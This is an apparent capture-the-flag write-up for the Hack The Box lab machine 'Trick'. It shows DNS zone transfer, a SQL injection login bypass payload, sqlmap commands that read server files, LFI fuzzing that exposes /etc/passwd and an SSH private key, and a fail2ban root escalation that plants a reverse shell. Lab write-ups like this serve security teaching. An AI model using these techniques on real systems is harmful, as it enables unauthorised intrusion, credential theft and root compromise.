## About Trick

**Name:** Trick

**Machine:** https://app.hackthebox.com/machines/Trick

**Difficulty:** Easy

**OS:** Linux

**Target IP:** 10.129.227.180

---
## Recon

I'll start with an nmap scan to discover open ports and services:

```
sudo nmap -sC -sV -oA nmap/Trick -v 10.129.227.180
```

Four ports are open. This is a Linux box, and it's running `nginx` for the web server. `SMTP` and `DNS` are both open too, which gives me a couple of extra angles beyond the website.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting port 80 gives us a simple website under development.


There's nothing to test on the site yet, so I'll check `SMTP` first. I connect over `telnet` and confirm the `root` user exists on the mail server, using the `VRFY` command.



I tried a few other usernames but got no hit. So I moved on to `DNS`. A reverse lookup often reveals the domain name a box is configured for:

```
dig @10.129.227.180 -x 10.129.227.180
```



This reveals the domain name. With a domain name in hand, it's worth trying a zone transfer, since a misconfigured DNS server will just hand over its full record set:

```
dig +noall +answer @10.129.227.180 axfr trick.htb
```



The zone transfer succeeds and reveals a subdomain, `preprod-payroll.trick.htb`. I'll add that to `/etc/hosts`.



## Foothold

Navigating to `http://preprod-payroll.trick.htb` opens a simple login page.


I'll try some basic SQL injection on the username field. `test' OR 1=1;-- -` works, and we're in. This suggests the login query isn't parameterized, so the input is being concatenated straight into the SQL statement.



In the user section, I can see the administrator's username, and I'm able to edit his profile.



Using the edit function, I could just change `administrator`'s password directly. But I don't even need to - his plaintext password is already visible in the page source via dev tools.



Since the login form is injectable, I'll capture the login request again and hand it to `sqlmap` to dig deeper.



Testing manually first: the auth-bypass payload returns `1` as output, confirming a successful login. A value I know should be false instead returns `3`. That difference in response is enough for a boolean-based blind injection.



I'll save this request as `login.req` and run `sqlmap` against it:

```
sqlmap -r login.req --batch
```



Time-based injection is slow to confirm. Since I already know boolean-based injection works, I'll tell `sqlmap` to only test that technique, which saves a lot of time:

```
sqlmap -r login.req --batch --technique B --level 5
```



`sqlmap` confirms the vulnerability, so I can use it to pull more information. I'll try reading the default `nginx` configuration, since that often lists every vhost the server handles:

```
sqlmap -r login.req --batch --file-read=/etc/nginx/sites-enabled/default --threads=10 
```

This returns three vhosts. Two of them, `trick.htb` and `preprod-payroll.trick.htb`, I already know about from the zone transfer.

The third is new - `preprod-marketing.trick.htb`:

```
server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}
```

The `preprod-` naming pattern is worth following further, so I'll also fuzz for other `preprod-` subdomains directly:

```
ffuf -u http://10.129.227.180 -H "Host: preprod-FUZZ.trick.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fl 84
```

This lands on the same `preprod-marketing.trick.htb` subdomain, so it confirms the `sqlmap` result and would've worked as a standalone method too.



Visiting `preprod-marketing.trick.htb` shows a marketing site.


There are a few pages (services, about, contact) but nothing obviously interesting. Clicking the services link redirects to `http://preprod-marketing.trick.htb/index.php?page=services.html`. That `page` parameter loading a file by name is a classic LFI candidate, so I'll test it.



Nothing comes back for my manual attempt, so I'll fuzz with a dedicated LFI payload list instead:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://preprod-marketing.trick.htb/index.php?page=FUZZ' -fl 1
```



Several payloads come back as hits. I try one of them and it works - I can read `/etc/passwd`, and it shows a user named `michael`.



Since `michael` exists on the box, I'll use the LFI to poke around his home directory. Surprisingly, his SSH private key is readable through it.



I'll copy the key locally, set the right permissions, and log in as `michael`:

```
chmod 600 id_rsa
ssh -i id_rsa michael@10.129.227.180
```

From here I can read the user flag.



## Privilege Escalation

`michael` can restart `fail2ban` as `root` without a password, via `sudo`. He's also a member of a `security` group.



More importantly, `michael` has write permission over the `/etc/fail2ban/action.d` directory. Since he owns the directory, he can replace files inside it with his own, even if the files themselves are owned by `root`.



Here's how `fail2ban` fits together. Its main config, `jail.conf` in `/etc/fail2ban`, defines each monitored service and whether `fail2ban` is enabled for it. It also sets what ban action to take after repeated failed logins, referencing scripts in `/etc/fail2ban/action.d`, and how long a ban lasts. Any setting a service doesn't override falls back to the `[DEFAULT]` section.

Looking at `jail.conf`, there's an `sshd` section:

```
[sshd]

# To use more aggressive sshd modes set filter parameter "mode" in jail.local:
# normal (default), ddos, extra or aggressive (combines all).
# See "tests/files/logs/sshd" or "filter.d/sshd.conf" for usage example and details.
#mode   = normal
port    = ssh
logpath = %(sshd_log)s
backend = %(sshd_backend)s
bantime = 10s
```

And a `[DEFAULT]` section that applies to every service unless overridden:

```
[DEFAULT]

<SNIP>
# ignorecommand = /path/to/command <ip>
ignorecommand =

# "bantime" is the number of seconds that a host is banned.
bantime  = 10s

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10s

# "maxretry" is the number of failures before a host get banned.
maxretry = 5

<SNIP>
banaction = iptables-multiport
banaction_allports = iptables-allports
```

So by default, once `maxretry` is hit, `fail2ban` runs the `iptables-multiport` action. The actual ban command lives in `/etc/fail2ban/action.d/iptables-multiport.conf`, and it fires every time a ban is triggered:

```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
```

I can inject a payload into that `actionban` line to get code run as `root`, since `fail2ban` itself runs as `root`. The file is owned by `root`, so it can't be edited directly. But since `michael` owns the parent directory, he can swap the file out entirely:

```
cp iptables-multiport.conf iptables-multiport.conf.bak
rm iptables-multiport.conf
mv iptables-multiport.conf.bak iptables-multiport.conf
```

The copy is now owned by `michael`, so he can edit it freely.



I edit the file, add a reverse shell to the `actionban` line, and set up a listener in another terminal.



Then I restart the `fail2ban` service so it picks up the change:

```
sudo /etc/init.d/fail2ban restart
```

The directory gets cleaned up regularly, so I need to move fast here. Next, I trigger a few failed SSH logins to hit `maxretry` and fire the ban action. The reverse shell lands as `root`, and from there I can read the root flag.



---